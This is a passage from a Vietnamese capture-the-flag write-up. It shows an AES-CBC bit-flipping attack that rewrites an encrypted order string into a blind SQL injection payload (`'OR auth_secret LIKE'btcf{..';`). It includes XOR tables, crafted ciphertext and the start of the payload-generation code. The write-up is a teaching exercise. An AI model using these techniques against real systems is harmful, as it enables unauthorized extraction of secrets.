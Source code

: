 `Buy 1000 lots of waffles` -> `*/LIKE/* lots of waffles`
32 byte tiếp theo `WGsHWk5AKS04OWFiY2RlNPq1mzaJY8Av5V9AzZIH53Ni8Geho6pvdPJw7GkROUdB`

4. tiếp theo là `*/'%$gram%';--`

```python!
 xors = [
        0x42 ^ 0x2A,  # B ^ * = 0x42 ^ 0x2A = 0x68
        0x75 ^ 0x2F,  # u ^ / = 0x75 ^ 0x2F = 0x5A
        0x79 ^ 0x27,  # y ^ ' = 0x79 ^ 0x27 = 0x5E
        0x20 ^ 0x25,  # ' ' ^ % = 0x20 ^ 0x25 = 0x05
        0x31 ^ 0x24,  # 1 ^ $ = 0x31 ^ 0x24 = 0x15
        0x30 ^ 0x67,  # 0 ^ g = 0x30 ^ 0x67 = 0x57
        0x30 ^ 0x72,  # 0 ^ r = 0x30 ^ 0x72 = 0x42
        0x30 ^ 0x61,  # 0 ^ a = 0x30 ^ 0x61 = 0x51
        0x20 ^ 0x6D,  # ' ' ^ m = 0x20 ^ 0x6D = 0x4D
        0x6C ^ 0x25,  # l ^ % = 0x6C ^ 0x25 = 0x49
        0x6F ^ 0x27,  # o ^ ' = 0x6F ^ 0x27 = 0x48
        0x74 ^ 0x3B,  # t ^ ; = 0x74 ^ 0x3B = 0x4F
        0x73 ^ 0x2D,  # s ^ - = 0x73 ^ 0x2D = 0x5E
        0x20 ^ 0x2D   # ' ' ^ - = 0x20 ^ 0x2D = 0x0D
    ]

```

`Buy 1000 lots of waffles` -> `*/'%$gram%';--of waffles`
32 byte cuối
`WGtsNiFidGZ1cCktPWllNPq1mzaJY8Av5V9AzZIH53Ni8Geho6pvdPJw7GkROUdB`
auke để check lại thì giờ sẽ thử giải mã lại xem sao
đây là payload cuối cùng

```python!
VQsZMyovNjc4OWFiY2RlNPq1mzaJY8Av5V9AzZIH53Ni8Geho6pvdPJw7GkROUdBWGsqZnFtWXR9NnxzZGsgNPq1mzaJY8Av5V9AzZIH53Ni8Geho6pvdPJw7GkROUdBWGsHWk5AKS04OWFiY2RlNPq1mzaJY8Av5V9AzZIH53Ni8Geho6pvdPJw7GkROUdBWGtsNiFidGZ1cCktPWllNPq1mzaJY8Av5V9AzZIH53Ni8Geho6pvdPJw7GkROUdB
```

![image](https://hackmd.io/_uploads/SJIIBJiexg.png)

`'OR /*00 lots of waffles*/auth_secret/*f waffles*/LIKE/* lots of waffles*/'%$gram%';--of waffles`
auke giở chỉ cần đưa vào vòng lặp sau đó check từng kí tự là ok
`'OR /*00 lots of waffles*/auth_secret/*f waffles*/LIKE/* lots of waffles*/'btcf{..';--of waffles`

-> `'OR auth_secret LIKE'btcf{..';`
đây là code sinh payload của từng phần

```python!
from base64 import b64decode, b64encode
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad, unpad

class AESCipher:
    def __init__(self, key):
        self.key = key

    def encrypt(self, data, iv=None):
        if iv is None:
            iv = get_random_bytes(AES.block_size)
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return b64encode(iv + self.cipher.encrypt(pad(data.encode('utf-8'), AES.block_size)))

    def decrypt(self, data):
        raw = b64decode(data)
        self.cipher = AES.new(self.key, AES.MODE_CBC, raw[:AES.block_size])
        return unpad(self.cipher.decrypt(raw[AES.block_size:]), AES.block_size)

def bitFlip(pos, bit, data):
```